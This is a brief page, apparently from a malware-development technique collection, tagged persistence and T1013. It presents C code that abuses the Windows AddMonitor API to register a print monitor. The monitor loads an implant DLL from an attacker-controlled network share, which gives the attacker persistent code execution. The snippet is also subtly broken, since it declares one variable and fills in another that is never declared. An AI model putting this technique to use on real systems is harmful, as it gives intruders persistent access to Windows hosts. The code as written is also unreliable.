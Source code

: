 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
  - maintaining-access
  - persistence
  - T1013
  - windows
---
```

# Print Monitor

```c
#include <windows.h>
#include <winspool.h>

#pragma comment(lib, "winspool.lib")

int main() {
    //Build the struct req by AddMonitor
    MONITOR_INFO_2 mon;
    TCHAR name[14] = TEXT("MonitorSlayer");
    TCHAR arch[12] = TEXT("Windows x64");
    TCHAR dll[39] = TEXT("\\\\<attacker_IP>\\<share_name>\\implant.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = arch;
    monitorInfo.pDLLName = dll;

    //Add the monitor
    AddMonitor(NULL, 2, (LPBYTE)&mon);
    return 0;
}

```

---
## References

### Microsoft

- [WinAPI Documentation: `AddMonitor`](https://learn.microsoft.com/en-us/windows/win32/printdocs/addmonitor)

### Persistence Info

- [Persistence Info: Print Monitor](https://persistence-info.github.io/Data/printmonitor.html)

### Red Team Notes

- [Red Team Notes: `AddMonitor()`](https://www.ired.team/offensive-security/persistence/t1013-addmonitor)

### Slayer Labs

- [Slayer Labs: Windows Persistence via Port Monitors](https://posts.slayerlabs.com/monitor-persistence/)